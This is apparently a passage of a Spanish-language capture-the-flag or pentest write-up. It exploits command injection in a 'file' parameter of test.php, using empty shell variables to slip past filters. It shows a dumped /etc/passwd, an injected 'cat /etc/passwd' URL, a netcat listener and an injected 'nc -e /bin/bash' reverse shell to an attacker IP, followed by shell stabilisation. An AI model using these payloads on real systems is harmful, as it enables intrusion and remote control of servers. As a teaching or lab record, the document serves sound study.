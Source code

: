 Si hacemos eso podremos ver el `passwd`...

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
messagebus:x:105:109::/var/run/dbus:/bin/false
_apt:x:106:65534::/nonexistent:/bin/false
mysql:x:107:110:MySQL Server,,,:/nonexistent:/bin/false
uuidd:x:108:113::/run/uuidd:/bin/false
bob:x:1000:1000:bob,,,:/home/bob:/bin/bash
```

Tambien se puede hacer de esta manera...

```
URL = http://<IP>/test.php?file=www.google.com;cat$u+/etc$u/passwd$u
```

Por lo que si estamos a la escucha y hacemos lo siguiente...

```shell
nc -lvnp <PORT>
```

```
URL = http://<IP>/test.php?file=www.google.com;nc$u -e /bin$u/bash$u <IP> <PORT>
```

Y ejecutamos eso estando a la escucha tendremos una shell con el usuario `www-data` `bypasseando` las medidas de seguridad...

Sanitizamos la shell...

```shell
script /dev/null -c bash
```
